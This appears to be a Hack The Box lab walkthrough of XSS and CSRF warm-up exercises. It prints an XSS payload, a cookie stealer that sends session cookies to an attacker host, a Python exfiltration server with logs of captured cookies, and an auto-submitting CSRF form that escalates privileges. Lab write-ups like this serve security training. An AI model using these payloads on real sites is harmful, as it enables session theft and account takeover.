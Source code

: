 # Lab Warmup

After discussing the lab components, let us explore how we can use them to exploit a couple of sample vulnerabilities.

## XSS Warm-Up

Our sample web application is a simple guestbook allowing us to leave entries, which all users can view. An administrator frequently monitors the entries to address spam:

```
https://xss.labintro.htb/view.php
Guestbook entries with a spam notice. Two entries: User htb-stdnt with message Hello World! and options to edit or delete; User admin with a welcome message and options to edit or delete.
```
We can confirm an obvious XSS vulnerability by posting the following entry:

```html
<script>alert(1)</script>
```
```
https://xss.labintro.htb/view.php
Popup alert from xss.labintro.htb displaying the number "1" with an "OK" button.
```
Let us develop an exploit to steal the admin user's cookies. We can use the exploitserver for exploit development by using a payload that loads the script from the exploit server:

```html
<script src="https://exploitserver.htb/exploit"></script>
```
Afterward, we can create a cookie stealer payload like the following on the exploit server. To exfiltrate the cookie, we can use the HTTPS server running on our system:

```js
window.location = "https://10.10.14.144:4443/cookiestealer?c=" + document.cookie;
```
After saving the exploit, we can confirm that it has been saved by accessing the `/exploit` endpoint:

`Request and response details: GET /exploit HTTP/1.1 to host exploitserver.htb; HTTP 200 OK with a script redirecting to https://10.10.14.144:4443/cookiestealer?c= + document.cookie`

Lastly, we must wait for the admin user to access the guestbook. The injected XSS payload causes the admin's browser to load the payload from the exploit server, which will exfiltrate the admin user's cookies to our system:

```bash
kabaneridev@htb[/htb]$ python3 server.py 

10.129.233.62 - - [31/Dec/2024 13:37:36] code 404, message File not found
10.129.233.62 - - [31/Dec/2024 13:37:36] "GET /cookiestealer?c=PHPSESSID=tiitsevk7pns4kmrcmjecm9qq6 HTTP/1.1" 404 
```

## CSRF Warm-Up

The sample web application does not contain much functionality as it is still under construction:

```
https://csrf.labintro.htb/index.php
Welcome message for demo htb-stdnt. Application under construction. Current permissions: user. Option to "Promote."
```
However, we can see that we only have user permissions. There is a promote button. If we press it, the web application informs us that only administrator users can promote other users. However, we can see that the promotion is implemented with the following request:

`Request to GET /profile.php?promote=htb-stdnt on csrf.labintro.htb with a PHPSESSID cookie. Response includes an error message: "Only administrators can promote users."`

In particular, this endpoint has no CSRF protection, enabling us to execute a CSRF attack to make an administrator promote our user. To do so, we need to create an HTML form that corresponds to the promotion request:

```html
<html>
  <body>
    <form method="GET" action="https://csrf.labintro.htb/profile.php">
      <input type="hidden" name="promote" value="htb-stdnt" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Since we do not want the attack to require additional user interaction, we will add JavaScript code that automatically submits the form once the page is loaded:

```html
<script>
	document.forms[0].submit();
</script>
```
Combining these two parts results in the following payload, which we will save in the exploitserver:

```html
<html>
  <body>
    <form method="GET" action="https://csrf.labintro.htb/profile.php">
      <input type="hidden" name="promote" value="htb-stdnt" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
We can test our exploit by clicking on View Exploit while being logged in to the vulnerable application. This results in a request to `https://exploitserver.htb/exploit`, which returns our saved payload. The payload auto-submits the form, creating a cross-origin request to the vulnerable web application. However, since we are not an administrator, the promotion fails:

```
https://csrf.labintro.htb/profile.php?promote=htb-stdnt
Welcome message for demo htb-stdnt. Application under construction. Current permissions: user. Option to "Promote." Error message: "Only administrators can promote users."
```
However, this confirms that our CSRF payload successfully sent the HTTP request to promote our user. To execute the attack, we can deliver our payload to the victim and select the current vHost `csrf.labintro.htb`. This will result in the victim accessing `https://exploitserver.htb/exploit`. After waiting for a few seconds and refreshing the page, we are promoted to admin:

```
https://csrf.labintro.htb/profile.php
Welcome message for demo htb-stdnt. Application under construction. Current permissions: administrator. Option to "Promote."
```
Thus, we successfully exploited the CSRF vulnerability to make the administrator victim promote our user.

Note: When working on the labs, please keep the following things in mind:

*   There is a simulated victim user in all labs in this module. This victim user may take some time to access the payload. So, make sure your payload works by testing it yourself, and please be patient and wait a couple of minutes for the victim to trigger the exploit.
*   The simulated victim uses a Chromium 114.0.5735.90 Browser. The exploits have been tested on this browser version. Due to many recent changes regarding the handling of third-party cookies, it cannot be guaranteed that the exploits will work on later browser versions. You can download older Chromium releases here.
*   Please delete all cookies when moving from one lab to the next. The existence of cookies from previous labs may cause the browser to reject cookies in future labs.

## Lab Warmup Questions

**Question 1: Familiarize yourself with the lab environment. Use the components to exploit the XSS vulnerability to steal the victim's cookie.**

1.  Add the necessary VHosts to your `/etc/hosts` file:
    ```bash
    sudo sh -c 'echo "10.129.233.62 exploitserver.htb xss.labintro.htb csrf.labintro.htb" >> /etc/hosts'
    ```
2.  Navigate to `http://xss.labintro.htb` and log in with the credentials `htb-stdnt:Academy_student!`.
3.  Go to `http://exploitserver.htb` and prepare an XSS payload to steal the victim's session cookie. The payload will redirect to your HTTPS exfiltration server:
    ```js
    window.location = "https://YOUR_IP:YOUR_PORT/cookiestealer?c=" + document.cookie
    ```
4.  Save the payload on the exploit server. It will be viewable at `https://exploitserver.htb/exploit`.
5.  Return to `https://xss.labintro.htb` and submit the following payload as a guestbook entry to load the script from the exploit server:
    ```html
    <script src="https://exploitserver.htb/exploit"></script>
    ```
6.  Create a Python script (`server.py`) for the HTTPS exfiltration server:
    ```python
    from http import server
    import ssl

    httpd = server.HTTPServer(('0.0.0.0', 4443), server.SimpleHTTPRequestHandler)

    # New API for Python 3.10+
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    context.load_cert_chain(certfile='./server.pem')

    httpd.socket = context.wrap_socket(httpd.socket, server_side=True)
    httpd.serve_forever()
    ```
7.  Generate a self-signed certificate using `openssl`:
    ```bash
    openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
    ```
    (Provide arbitrary details when prompted)
8.  Start the HTTPS Python server:
    ```bash
    python3 server.py
    ```
9.  After a few moments, when the admin user accesses the guestbook, their cookie will be exfiltrated to your HTTPS server.
    ```bash
    10.10.15.52 - - [22/Oct/2025 04:57:01] code 404, message File not found
    10.10.15.52 - - [22/Oct/2025 04:57:01] "GET /cookiestealer?c=PHPSESSID=utn44cn8v3t0pnrlotbaber69o HTTP/1.1" 404 -
    10.10.15.52 - - [22/Oct/2025 04:57:01] code 404, message File not found
    10.10.15.52 - - [22/Oct/2025 04:57:01] "GET /favicon.ico HTTP/1.1" 404 -
    10.129.233.62 - - [22/Oct/2025 04:58:02] code 404, message File not found
    10.129.233.62 - - [22/Oct/2025 04:58:02] "GET /cookiestealer?c=PHPSESSID=t208nrqvq2gq8ehs66uinhkpu2;%20flag=HTB... HTTP/1.1" 404 -
    ```

**Question 2: Use the lab components to exploit the CSRF vulnerability to get your user promoted to administrator.**

1.  Ensure `exploitserver.htb`, `xss.labintro.htb`, and `csrf.labintro.htb` are in your `/etc/hosts` file.
2.  Navigate to `https://csrf.labintro.htb/index.php` and log in with `htb-stdnt:Academy_student!`.
3.  Observe that your current permissions are "user" and there is a "Promote" button.
4.  Intercept the request generated by clicking the "Promote" button (e.g., `GET /profile.php?promote=htb-stdnt`).
5.  Create an HTML form on the `exploitserver.htb` that automatically submits this promotion request:
    ```html
    <html>
      <body>
        <form method="GET" action="https://csrf.labintro.htb/profile.php">
          <input type="hidden" name="promote" value="htb-stdnt" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```
6.  Deliver this payload to the victim by accessing the `/deliver` endpoint on the exploit server, selecting `csrf.labintro.htb` as the target vHost.
7.  Wait a few moments for the simulated victim to trigger the exploit.
8.  Refresh `https://csrf.labintro.htb/profile.php` and confirm that your user has been promoted to "administrator".
